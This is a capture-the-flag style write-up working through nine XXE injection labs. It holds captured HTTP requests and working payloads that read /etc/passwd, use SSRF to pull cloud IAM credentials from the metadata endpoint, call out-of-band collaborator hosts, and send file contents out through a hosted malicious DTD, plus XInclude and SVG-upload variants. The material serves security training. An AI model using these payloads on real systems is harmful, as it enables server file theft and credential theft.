# XML external entity (XXE) injection



- XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.
- It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
- In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

## What is DTD in XML

- The XML document type definition (DTD) contains declarations that can define the structure of an XML document, the types of data values it can contain, and other items. The DTD is declared within the optional `DOCTYPE` element at the start of the XML document. 
- The DTD can be fully self-contained within the document itself (known as an =="internal DTD")== or can be loaded from elsewhere ==(known as an "external DTD")== or can be hybrid of the two.

## Lab 1: Exploiting XXE using external entities to retrieve files



- This website have `Check Stock` feature which is parsing XML input and return some value so we have to perform attack on it.
- We will clock check stock and capture the req,





```http
POST /product/stock HTTP/1.1
Host: 0a1d00120396b19f80a1266b002600b6.web-security-academy.net
Connection: keep-alive
Content-Length: 107
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
Content-Type: application/xml
sec-ch-ua-mobile: ?0
Accept: */*
Origin: https://0a1d00120396b19f80a1266b002600b6.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1d00120396b19f80a1266b002600b6.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=tNViPEyPjgdD1alEAOyHvMjC4Qdf6RDx

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

- So we will inject out payload inside DTD which will lead to  `LFI` and leak of `/etc/passwd`  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ 
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

- Here is the complete request,

```http
POST /product/stock HTTP/1.1
Host: 0a1d00120396b19f80a1266b002600b6.web-security-academy.net
Connection: keep-alive
Content-Length: 107
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
Content-Type: application/xml
sec-ch-ua-mobile: ?0
Accept: */*
Origin: https://0a1d00120396b19f80a1266b002600b6.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1d00120396b19f80a1266b002600b6.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=tNViPEyPjgdD1alEAOyHvMjC4Qdf6RDx

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ 
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```



```bash
daemon: x: 1: 1: daemon: /usr/sbin: /usr/sbin / nologin
bin: x: 2: 2: bin: /bin:/usr / sbin / nologin
sys: x: 3: 3: sys: /dev:/usr / sbin / nologin
sync: x: 4: 65534: sync: /bin:/bin / sync
games: x: 5: 60: games: /usr/games: /usr/sbin / nologin
man: x: 6: 12: man: /var/cache / man: /usr/sbin / nologin
lp: x: 7: 7: lp: /var/spool / lpd: /usr/sbin / nologin
mail: x: 8: 8: mail: /var/mail: /usr/sbin / nologin
news: x: 9: 9: news: /var/spool / news: /usr/sbin / nologin
uucp: x: 10: 10: uucp: /var/spool / uucp: /usr/sbin / nologin
proxy: x: 13: 13: proxy: /bin:/usr / sbin / nologin
www - data: x: 33: 33: www - data: /var/www: /usr/sbin / nologin
backup: x: 34: 34: backup: /var/backups: /usr/sbin / nologin
list: x: 38: 38: Mailing List Manager: /var/list: /usr/sbin / nologin
irc: x: 39: 39: ircd: /var/run / ircd: /usr/sbin / nologin
gnats: x: 41: 41: Gnats Bug - Reporting System(admin): /var/lib / gnats: /usr/sbin / nologin
nobody: x: 65534: 65534: nobody: /nonexistent:/usr / sbin / nologin
_apt: x: 100: 65534::/nonexistent:/usr / sbin / nologin
peter: x: 12001: 12001::/home/peter: /bin/bash
carlos: x: 12002: 12002::/home/carlos: /bin/bash
user: x: 12000: 12000::/home/user: /bin/bash
elmer: x: 12099: 12099::/home/elmer: /bin/bash
academy: x: 10000: 10000::/academy:/bin / bash
messagebus: x: 101: 101::/nonexistent:/usr / sbin / nologin
dnsmasq: x: 102: 65534: dnsmasq, , ,: /var/lib / misc: /usr/sbin / nologin
systemd - timesync: x: 103: 103: systemd Time Synchronization, , ,: /run/systemd: /usr/sbin / nologin
systemd - network: x: 104: 105: systemd Network Management, , ,: /run/systemd: /usr/sbin / nologin
systemd - resolve: x: 105: 106: systemd Resolver, , ,: /run/systemd: /usr/sbin / nologin
mysql: x: 106: 107: MySQL Server, , ,: /nonexistent:/bin / false
postgres: x: 107: 110: PostgreSQL administrator, , ,: /var/lib / postgresql: /bin/bash
usbmux: x: 108: 46: usbmux daemon, , ,: /var/lib / usbmux: /usr/sbin / nologin
rtkit: x: 109: 115: RealtimeKit, , ,: /proc:/usr / sbin / nologin
mongodb: x: 110: 117::/var/lib / mongodb: /usr/sbin / nologin
avahi: x: 111: 118: Avahi mDNS daemon, , ,: /var/run / avahi - daemon: /usr/sbin / nologin
cups - pk - helper: x: 112: 119: user
for cups - pk - helper service, , ,: /home/cups - pk - helper: /usr/sbin / nologin
geoclue: x: 113: 120::/var/lib / geoclue: /usr/sbin / nologin
saned: x: 114: 122::/var/lib / saned: /usr/sbin / nologin
colord: x: 115: 123: colord colour management daemon, , ,: /var/lib / colord: /usr/sbin / nologin
pulse: x: 116: 124: PulseAudio daemon, , ,: /var/run / pulse: /usr/sbin / nologin
gdm: x: 117: 126: Gnome Display Manager: /var/lib / gdm3: /bin/false
```



## Lab 2: Exploiting XXE to Perform SSRF attacks 





- We have to capture the `Check Stock` req so here it is,

```http
POST /product/stock HTTP/1.1
Host: 0a36002504a4e18b8084172c00b7004d.web-security-academy.net
Connection: keep-alive
Content-Length: 107
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
Content-Type: application/xml
sec-ch-ua-mobile: ?0
Accept: */*
Origin: https://0a36002504a4e18b8084172c00b7004d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a36002504a4e18b8084172c00b7004d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=G29ap0qjBobfyLLmtbShcqZmdVyRbdjE

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

- It here the Payload which we will inject into out req,

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

```http
POST /product/stock HTTP/1.1
Host: 0a36002504a4e18b8084172c00b7004d.web-security-academy.net
Connection: keep-alive
Content-Length: 107
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
Content-Type: application/xml
sec-ch-ua-mobile: ?0
Accept: */*
Origin: https://0a36002504a4e18b8084172c00b7004d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a36002504a4e18b8084172c00b7004d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: session=G29ap0qjBobfyLLmtbShcqZmdVyRbdjE


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

- We successfully get IAM Secret Access Key



```json
{
"Code": "Success",
"LastUpdated": "2025-11-10T06:07:56.118511689Z",
"Type": "AWS-HMAC",
"AccessKeyId": "MfZuA9JCkkhYdijn3ei5",
"SecretAccessKey": "LaPTGVYvMsc09Kr9teV9yEMAD6xATbLmhr8FkBPz",
"Token": "065Ji5oKMvuDFPvdjXVVDuqcjjcsGOZ7FifalsHnyXyAxgG7m9zBm27hTLEpsvF4O1laq97Z3MB8XuQ1r9Kft4UPRzNw8mwfv7qXSVDP781bjSNIgyflIU3KhblmuOJ9pX6aubpxiPkD7rp96XWMfxEiDv2875t0nF6nLjb2Shy9NPw4s73FHgNrTwZfGTgfrHdlyuIe5WbZitaJU7bwmjPxNWhF0xBkkzSnXAxryHjfsOYb5PAYq7L4Kk5byifP",
"Expiration": "2031-11-09T06:07:56.118511689Z"
}
```



## Lab 3: Blind XXE with out-of-band interaction



- So as previous lab we have to capture `/product/stock` endpoint which is sending XML data to server so we can try there our payload,

```http
POST /product/stock HTTP/2
Host: 0aaf0067032459d785d0545f00eb0031.web-security-academy.net
Cookie: session=zkqwjVuhCv09McN6crtfjZPRlB7IACy0
Content-Length: 107
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Origin: https://0aaf0067032459d785d0545f00eb0031.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aaf0067032459d785d0545f00eb0031.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

- Since this is blind XXE so we can replace xml with this payload which contains burp collaborator url,
- It made req to that url and if we get then we have xxe working

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "http://ccsipkjptbut4x6e5u9u42y8szyqmga5.oastify.com/xxe-test">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```



- We got response in collab, and there is motive of this lab so we solved the lab.






## Lab 4: Lab: Blind with out-of-band interaction via XML parameter entities


- Again we capture the `/product/stock` req and see what's in it,

```http
POST /product/stock HTTP/2
Host: 0ad000a50319f45784c10f9b006d000f.web-security-academy.net
Cookie: session=Qu0LiaEWo8Ub2dojX5vysj2kzFlUVEoy
Content-Length: 107
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Origin: https://0ad000a50319f45784c10f9b006d000f.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ad000a50319f45784c10f9b006d000f.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

- I tried previous payload but got blocked so we have to try different tag to bypass this,



- After trying multiple things this works,
- These are Parameter Entities (`%entity`)
- Parameter entities:
	- Start with `%`
	- Are used **inside DTDs only**
	- Never appear in the final XML content
	- Are often not blocked, because most filters only target general entities (`&name;`)
- Since your external DTD does not contain harmful instructions (only a URL), the parser just makes the OOB call.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY % ext SYSTEM "http://1fh7s9mew0xi7m938jcj7r1xvo1fp6dv.oastify.com/xxe-test">
  %ext;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```





- And we solve the lab by doing this,



## Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD



- We have to exfiltrate the `/etc/host` content to solve this lab so first we capture the `/product/stock` req,

```http
POST /product/stock HTTP/2
Host: 0a4d009903fedb1180966766003e0092.web-security-academy.net
Cookie: session=IwehDMHwI98PLuxNiOrLxxiEWjZR2231
Content-Length: 107
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a4d009903fedb1180966766003e0092.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4d009903fedb1180966766003e0092.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

- So to solve this challenge we have to host out exploit server which contains this exploit so exfiltrate `/etc/hostnames` with this collab url `bydhbj5ofagsqwsdrtvtq1k7eykp8hw6.oastify.com`,
- It renders `hostname` file using `file:///` protocol and append it to our burp endpoint with any random parameters so this will send data through url,
- we store this file in exploit server, and we do view exploit and copy that url, 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://bydhbj5ofagsqwsdrtvtq1k7eykp8hw6.oastify.com/?x=%file;'>">
%eval;
%exfil;
```





```http
https://exploit-0ac300340382db7880c8665101af0032.exploit-server.net/exploit
```

- Now we have to embed above url in actual xml payload which pull this DTD from our server and executes it, 

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "https://exploit-0ac300340382db7880c8665101af0032.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```





- hostname is `c0777275c175` and after submit this solution we solve the lab,



## Lab 6: Exploiting blind XXE to retrieve data via error messages



- To solve this lab we have to display content of `/etc/passwd` so here is `/product/stock` req,

```http
POST /product/stock HTTP/2
Host: 0ada00680388a92782c598eb00f3006b.web-security-academy.net
Cookie: session=dN909puMGZnPHSlv3I3NPE72CsGIZkgN
Content-Length: 107
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Origin: https://0ada00680388a92782c598eb00f3006b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ada00680388a92782c598eb00f3006b.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

- This is exploit hosted on exploit sever,

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```



- We grab the URL of exploit server where DTD is hosted by doing view exploit,

```
https://exploit-0a2600990353a94382bf975d01b700fb.exploit-server.net/exploit
```



- Final XML Exploit which we send to server,

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [

<!ENTITY % xxe SYSTEM "https://exploit-0a2600990353a94382bf975d01b700fb.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

- it works and we got `/etc/passwd` directly in response with some error,





## Lab 7: Exploiting XInclude to retrieve files


- Here is the `CheckStock` req,

```http
POST /product/stock HTTP/2
Host: 0a840013044f220085404bd2003c006a.web-security-academy.net
Cookie: session=q887Y0wxz5bGzcDsYRs8j6HCW9C7DpvJ
Content-Length: 21
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a840013044f220085404bd2003c006a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a840013044f220085404bd2003c006a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

productId=1&storeId=1
```

- In this lab Because we don't control the entire XML document we can't define a DTD to launch a classic XXE attack.

>[!hint]
>XInclude is part of the XML standard (`XLink`) that allows one XML document to include another external file.

- so as per description, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file
- This tells the XML parser: 
	- "Before processing, fetch this file and include its contents here."

```xml
<xi:include href="other.xml" parse="xml" xmlns:xi="http://www.w3.org/2001/XInclude"/>
```

- Here is actual payload,

```xml
<xi:include href="file:///etc/passwd" parse="text"
    xmlns:xi="http://www.w3.org/2001/XInclude" />
```

-  Here is what happens:
	1. `xi:include` is recognized as an **XInclude directive**
	2. The parser sees `href="file:///etc/passwd"`
	3. It loads that file from the filesystem
	4. The contents of `/etc/passwd` replace the `<xi:include>` tag
- We will inject this payload into out parameters,

```xml
productId=<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="file:///etc/passwd" parse="text"/>&storeId=1
```

- We got `/etc/passwd` and also solved the lab,





## Lab 8: Exploiting XXE via image file upload



- This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

>[!hint]
> The SVG image format uses XML.

- **Apache Batik** :- A Java library used to **render SVG images** → converts them into raster graphics.
- SVG is not just an image format — it is **XML**.
- So when the server thinks it's processing an "image", Batik is actually parsing **XML**.
- Here is the `/post/comment` endpoint request in which i tried upload below `shell.svg` with needed details.   

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY hostname SYSTEM "file:///etc/hostname">
]>
<svg width="300" height="50"
     xmlns="http://www.w3.org/2000/svg"
     version="1.1">
  <text x="10" y="30" font-size="20">&hostname;</text>
</svg>
```
 
```http
POST /post/comment HTTP/2
Host: 0ae500da04f5442b80fe357d00ae00a3.web-security-academy.net
Cookie: session=4CmpDnsIAE8Cpo9lDr1pZwDn36ZIXolm
Content-Length: 1073
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://0ae500da04f5442b80fe357d00ae00a3.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary49osAwipf2s1ka4j
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae500da04f5442b80fe357d00ae00a3.web-security-academy.net/post?postId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundary49osAwipf2s1ka4j
Content-Disposition: form-data; name="csrf"

1ZCqa1BZYXkJHxYikDmxz9p3kbTM9fb7
------WebKitFormBoundary49osAwipf2s1ka4j
Content-Disposition: form-data; name="postId"

1
------WebKitFormBoundary49osAwipf2s1ka4j
Content-Disposition: form-data; name="comment"

SHELL
------WebKitFormBoundary49osAwipf2s1ka4j
Content-Disposition: form-data; name="name"

b14cky
------WebKitFormBoundary49osAwipf2s1ka4j
Content-Disposition: form-data; name="avatar"; filename="shell.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY hostname SYSTEM "file:///etc/hostname">
]>
<svg width="300" height="50"
     xmlns="http://www.w3.org/2000/svg"
     version="1.1">
  <text x="10" y="30" font-size="20">&hostname;</text>
</svg>

------WebKitFormBoundary49osAwipf2s1ka4j
Content-Disposition: form-data; name="email"

b14cky@b14cky.com
------WebKitFormBoundary49osAwipf2s1ka4j
Content-Disposition: form-data; name="website"


------WebKitFormBoundary49osAwipf2s1ka4j--

```

- After that we can comment here, and when we open that image by left click on that small line we can see the hostname being parsed as image,
- And by submitting this we solve the lab,



```yml
ca02670f9934
```





## Lab 9: Lab: Exploiting XXE to retrieve data by repurposing a local DTD



- To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.
- We 'll need to reference an existing DTD file on the server and redefine an entity from it.

>[!hint]
>Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

- here is the `/product/stock` request,

```http
POST /product/stock HTTP/2
Host: 0a4d00fd043c861785096a5f003c00b5.web-security-academy.net
Cookie: session=R0yEJiPTL22MkObAvejC94rcXXXCesDq
Content-Length: 107
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a4d00fd043c861785096a5f003c00b5.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4d00fd043c861785096a5f003c00b5.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

- Here is the payload that we will use to dump `/etc/passwd`,
- Loads a trusted DTD (`docbookx.dtd`)
- Overrides a known parameter entity (`ISOamso`)
- Overrides it with malicious parameter entities:
    - `file` → loads `/etc/passwd`
    - `eval` → constructs a new entity named `error`
    - `error` → references invalid URL containing file contents → triggers SAX error showing `/etc/passwd`
- The parser **re-expands** everything, hits the invalid entity → throws error → reveals file content.

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```



